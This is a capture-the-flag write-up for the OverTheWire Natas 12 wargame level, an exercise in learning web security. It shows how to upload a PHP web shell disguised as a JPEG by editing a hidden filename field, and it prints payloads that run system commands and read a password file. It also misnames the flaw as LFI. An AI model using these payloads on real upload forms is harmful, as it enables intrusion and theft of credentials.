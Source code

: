 # [Natas 12](http://natas12.natas.labs.overthewire.org/)

![1](https://github.com/GHAFRI/Writeups/tree/master/Web/OverTheWire/Natas/Natas12/1.png)

## Solution

If we check the source code we see
```
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="wkmjb7q5ue.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
```
As we keep refreshing the page, we still get `random` name for the `value="wkmjb7q5ue.jpg"` file.
If we have a look at the [Source code](http://natas12.natas.labs.overthewire.org/index-source.html), we see
```
<?  

function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
} 

function makeRandomPath($dir, $ext) { 
    do { 
    $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
} 

function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
} 

if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else { 
?> 

<form enctype="multipart/form-data" action="index.php" method="POST"> 
<input type="hidden" name="MAX_FILE_SIZE" value="1000" /> 
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
Choose a JPEG to upload (max 1KB):<br/> 
<input name="uploadedfile" type="file" /><br /> 
<input type="submit" value="Upload File" /> 
</form> 
```
We see that the file gets a random `path` from the function `makeRandomPath()` and `name` from `genRandomString()`.
Down we also see `<? print genRandomString(); ?>.jpg` which was also presented in `index.php` webpage. 
This is an LFI type of attack, for extra details check [trialofbits](https://vimeo.com/32509769).
A tpical PHP line to exploit check: <? echo system(\" ls; \") ?>
Now lets make a `php` line hidden in a `jpg`. 
To do that we use: `echo "string " > name.jpg`.
So, we use `echo "<? echo system(\" ls \"); ?>" > 1.jpg`.
Now we go back to the site and upload the image file.
Before we click on `Upload`, we `Inspect` on the image that we uploaded using `Dev Tools`.
We look back for `value="random_name.jpg"` and we change it to `value="random_name.php`.
We click `Enter` to make sure its changed.
Now `Upload`.
It gives us `The file upload/j31o6bx15x.php has been uploaded`, when we check that page we get this list
```
3fw5idg4y8.php
3kzfrrvgig.php
5mwyyz89cj.jpg
77smoe16do.php
9xpr4x28pp.jpg
bf0tmyncki.jpg
ccw3b8bcic.jpg
eowa7mjj39.php
j31o6bx15x.php
klpn4rtlu0.php
lj1edrky2p.jpg
mvlaf05fnt.jpg
o6ktlghv56.php
q2k5lew3pp.jpg
qvipmjgium.php
qvipmjgium.php
````
It seems the exploit worked. Those are probably `exploits` from other players to find the `password`. We can check them for a clue for the location or we can just use the same location we found in `Natas10`.
To do that, we create a new file with new code by `echo "<? echo system(\" cat /etc/natas_webpass/natas13 \"); ?>" > 2.jpg`.
This will display the Natas13 password for us.
Now we do the same steps like before and we check
```
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
``` 
Finally, the passcode is `jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY`.

